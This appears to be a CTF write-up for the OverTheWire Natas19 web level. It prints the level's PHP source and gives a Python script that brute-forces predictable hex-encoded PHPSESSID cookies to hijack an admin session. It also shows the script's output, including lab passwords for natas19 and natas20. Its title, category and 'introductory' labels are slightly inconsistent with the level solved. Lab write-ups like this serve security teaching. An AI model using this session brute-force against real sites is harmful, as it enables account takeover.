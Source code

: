# CTF Writeup - **OverTheWire Natas18 - Natas19**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas18 - Natas19
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 18-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using session hijacking.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas19
Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
URL:      http://natas19.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for an input username and password.  But we dont know anything about it, So lets input some random names and check it out. 

```bash
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
Please login with your admin account to retrieve credentials for natas20.
Username: natas
password: natas 
# You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.
```

Now we see that it doesnot check out input and only prints the above. This is interesting. Lets view the source code since we know that the source code is in `http://natas19.natas.labs.overthewire.org/index-source.html`.

```bash
# <?php

# $maxid = 640; // 640 should be enough for everyone

# function myhex2bin($h) { /* {{{ */
#   if (!is_string($h)) return null;
#   $r='';
#   for ($a=0; $a<strlen($h); $a+=2) { $r.=chr(hexdec($h[$a].$h[($a+1)])); }
#   return $r;
# }
# /* }}} */
# function isValidAdminLogin() { /* {{{ */
#     if($_REQUEST["username"] == "admin") {
#     /* This method of authentication appears to be unsafe and has been disabled for now. */
#         //return 1;
#     }

#     return 0;
# }
# /* }}} */
# function isValidID($id) { /* {{{ */
#     // must be lowercase
#     if($id != strtolower($id)) {
#         return false;
#     }

#     // must decode
#     $decoded = myhex2bin($id);

#     // must contain a number and a username
#     if(preg_match('/^(?P<id>\d+)-(?P<name>\w+)$/', $decoded, $matches)) {
#         return true;
#     }

#     return false;
# }
# /* }}} */
# function createID($user) { /* {{{ */
#     global $maxid;
#     $idnum = rand(1, $maxid);
#     $idstr = "$idnum-$user";
#     return bin2hex($idstr);
# }
# /* }}} */
# function debug($msg) { /* {{{ */
#     if(array_key_exists("debug", $_GET)) {
#         print "DEBUG: $msg<br>";
#     }
# }
# /* }}} */
# function my_session_start() { /* {{{ */
#     if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
#     if(!session_start()) {
#         debug("Session start failed");
#         return false;
#     } else {
#         debug("Session start ok");
#         if(!array_key_exists("admin", $_SESSION)) {
#         debug("Session was old: admin flag set");
#         $_SESSION["admin"] = 0; // backwards compatible, secure
#         }
#         return true;
#     }
#     }

#     return false;
# }
# /* }}} */
# function print_credentials() { /* {{{ */
#     if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
#     print "You are an admin. The credentials for the next level are:<br>";
#     print "<pre>Username: natas20\n";
#     print "Password: <censored></pre>";
#     } else {
#     print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas20.";
#     }
# }
# /* }}} */

# $showform = true;
# if(my_session_start()) {
#     print_credentials();
#     $showform = false;
# } else {
#     if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
#     session_id(createID($_REQUEST["username"]));
#     session_start();
#     $_SESSION["admin"] = isValidAdminLogin();
#     debug("New session started");
#     $showform = false;
#     print_credentials();
#     }
# }

# if($showform) {
# ?>
```

We can see that there is a small piece of code that is executed when we click on submit. This PHP script manages a session-based authentication system with debug functionality, allowing users to log in and retrieve credentials if they have administrative privileges. The script starts by validating sessions through `my_session_start()`, which checks for a valid numeric `PHPSESSID` cookie and initializes the `admin` flag in the session if it does not exist. If no valid session exists, and the user submits a `username` and `password`, a session is created with a random ID generated using the random number and the input username by `createID()` and converted to hexadecimal, but the admin flag is always set to `0` because the `isValidAdminLogin()` function (which checks if the username is "admin") is commented out and disabled. The `debug()` function outputs messages when the debug parameter is present in the URL, aiding in troubleshooting. The `print_credentials()` function displays the next level's credentials only if the session's admin flag is set to 1, otherwise informing the user they are logged in as a regular user. The script concludes by displaying credentials for `admin` users or informing non-admins of their status. However, the session ID generation is predictable, and the disabled admin login check highlights vulnerabilities that could be exploited for session hijacking or bypassing authentication. One thing we need to note here is that the `createID` function generates a random number between 1 and 640 and then creates a string with the number appended to the username like `212-admin` then it converts this to hexadecimal and then stores it in the PHPSESSIONID. Since, 640 is a less number we can brute force it. 


```bash
import requests

target = 'http://natas19.natas.labs.overthewire.org'
auth = ('natas19','tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')
params = dict(username='admin', password='s3cr3t')
cookies = dict()

max_s_id = 640
s_id = 1
while s_id <= max_s_id:
	print ("Trying with PHPSESSID = " + str(s_id) + " " + (str(s_id)+"-admin").encode("utf-8").hex())
	cookies = dict(PHPSESSID=(str(s_id)+"-admin").encode("utf-8").hex())
	r = requests.get(target, auth=auth, params=params, cookies=cookies)
	if "You are an admin" in r.text:
		print(r.text)
		break
	s_id += 1
```

What we are doing here is that we are essentially we are trying out all possible `PHPSESSIONID` as `640` is a very small range. We can see that the password is displayed when the `PHPSESSIONID  = hex(281-admin)` as shwon below. 

```bash
# Trying with PHPSESSID = 1 312d61646d696e
# Trying with PHPSESSID = 2 322d61646d696e
# ...
# ...
# Trying with PHPSESSID = 280 3238302d61646d696e
# Trying with PHPSESSID = 281 3238312d61646d696e
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
# <script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
# <body>
# <h1>natas19</h1>
# <div id="content">
# <p>
# <b>
# This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
# </b>
# </p>
# You are an admin. The credentials for the next level are:<br><pre>Username: natas20
# Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div>
# </body>
# </html>
```


## Flag

**Flag:** p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw


---

## Lessons Learned

It was a bit of challenge for me. I was able to grasp the idead behind the solution very easily. I learnt a lot on how to approach these types of challenges.